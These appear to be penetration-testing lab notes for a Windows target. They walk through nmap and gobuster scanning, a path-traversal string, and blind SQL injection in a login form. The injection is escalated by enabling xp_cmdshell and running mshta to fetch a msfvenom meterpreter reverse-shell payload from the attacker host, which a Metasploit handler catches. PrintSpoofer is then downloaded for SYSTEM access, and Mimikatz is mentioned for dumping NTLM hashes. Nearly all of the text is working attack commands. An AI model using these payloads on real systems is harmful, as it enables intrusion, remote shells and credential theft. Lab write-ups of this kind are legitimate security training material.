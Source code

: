 ```
nmap -sT -A 192.168.211.120-122
gobuster dir -u http://192.168.211.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
sudo nmap -sC -sV -oN nmap 192.168.211.121
sudo nmap -sC -sV -oN nmap-client3 192.168.211.122


# example of file traversal for windows
../../../../../../../../../C:\inetpub\wwwroot
```
### SQL injection
- Go to webservice running at 192.168.214.121
- test sqli payloads from https://github.com/payloadbox/sql-injection-payload-list
- Discovered that the username textbox from the login form is vulnerable to SQLi
- just a backtick worked 

discover num cols - 2 cols does not throw error
we soon discover this is blind, so do a test ping
```
' ORDER BY 5-- //
' ORDER BY 4-- //
' ORDER BY 3-- //
' ORDER BY 2-- //

sudo tcpdump -i tun0 proto \\icmp
test';EXEC xp_cmdshell "ping 192.168.45.242"; --
```

create staged payload
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.242 LPORT=443 -f hta-psh -o met.hta`

```
sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.45.242
set LPORT 443
set ExitOnSession false
run -j
```

execute payload with burp to catch shell
```
test';EXECUTE sp_configure 'show advanced options', 1;RECONFIGURE;EXECUTE sp_configure 'xp_cmdshell', 1;RECONFIGURE;--

test';EXEC xp_cmdshell "mshta.exe http://192.168.45.242/met.hta "; --
```

Basic enumeration
- do we have debug or impersonate? - yes we have impersonate
- using printspoofer we are able to get admin privs as the system/authority user
- then we can run mimikatz to dump NTLM hashes
```
whoami /priv

iwr -uri http://192.168.45.242/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```
